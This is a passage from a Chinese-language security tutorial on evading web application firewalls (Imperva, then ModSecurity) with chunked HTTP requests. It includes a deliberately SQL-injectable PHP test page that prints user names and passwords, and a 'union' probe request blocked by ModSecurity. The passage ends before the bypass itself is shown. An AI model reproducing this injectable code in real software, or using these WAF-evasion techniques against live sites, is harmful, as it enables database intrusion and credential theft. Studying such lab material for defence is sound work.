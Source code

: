 返回的结果如下图所示。

[![img](https://p1.ssl.qhimg.com/dm/1024\_512\_/t016a21d39c2ed6911a.png)](https://p1.ssl.qhimg.com/dm/1024\_512\_/t016a21d39c2ed6911a.png)

可以看到Imperva已经不拦截这个payload了。

### 技巧2 Bypass ModSecurity

众所周知ModSecurity是加载在中间件上的插件，所以不需要理会解析http数据包的问题，因为中间件已经帮它处理完了，那么无论使用常规的分块还是加了注释的分块数据包，ModSecurity都能直接获取到完整的http数据包然后匹配危险关键字，所以一些基于ModSecurity做的WAF产品难道就不受影响吗？

接下来我们在Apache+ModSecurity环境做测试。

sql.php代码如下：

```
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);
$con = mysql_connect("localhost","root","");
if (!$con)
{
    die('Could not connect: ' . mysql_error());
}
mysql_select_db("test", $con);
$id = $_REQUEST["id"];
$sql = "select * from user where id=$id";
$result = mysql_query($sql,$con);
while($row = mysql_fetch_array($result))
{
    echo $row['name'] . " " . $row['password']."n";
}
mysql_close($con);
print "========GET==========n";
print_r($_GET);
print "========POST==========n";
print_r($_POST);
?>
<a href="sqli.php?id=1"> sdfsdf </a>
```

ModSecurity加载的规则拦截了请求包中的关键字“union”。

下面我们的请求和返回结果如下：

```
请求:
http://10.10.10.10/sql.php?id=2%20union

返回:
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /sql.php was not found on this server.</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
```

